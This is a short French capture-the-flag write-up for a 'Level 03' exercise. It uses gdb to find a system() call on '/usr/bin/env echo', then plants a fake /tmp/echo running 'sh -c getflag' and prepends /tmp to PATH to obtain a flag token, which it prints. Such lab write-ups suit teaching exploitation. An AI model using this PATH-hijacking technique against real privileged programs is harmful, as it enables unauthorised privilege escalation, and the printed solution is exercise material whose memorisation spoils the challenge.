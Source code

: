 # Level 03

Dans le home on peut appercevoir un executable, que lorsqu'on le lance, nous ecrit dans le terminal: `Exploit me`.

La première chose qu'on pense c'est de voir comment est construit cette executable.
Et pour ce faire, on lance gdb avec comme argument l'executable.

Ensuite désassembler l'entry point.

```
$ gdb level03
(gdb) disassemble main
Dump of assembler code for function main:
	...
   0x080484f7 <+83>:	movl   $0x80485e0,(%esp)
   0x080484fe <+90>:	call   0x80483b0 <system@plt>
	...
End of assembler dump.
```

Et la permière chose qu'on voit dans ce main c'est le call de la fonction system avec comme argument la string à cette position `0x80485e0`

Donc on va regarder cette position:
```
(gdb) x/s 0x80485e0
0x80485e0:	 "/usr/bin/env echo Exploit me"
(gdb)
```
On voit donc que l'argument de system est `"/usr/bin/env echo Exploit me"`. Ce qui nous fait penser qu'on pourrais mettre un faux executable echo.

Pour ce faire on va créer le script/executable, qu'on va mettre dans /tmp/echo, lui donner les bonnes permission et un path directement sur /tmp

```
$ echo "sh -c getflag" > /tmp/echo
$ chmod 755 /tmp/echo
$ export PATH=/tmp:$PATH
$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```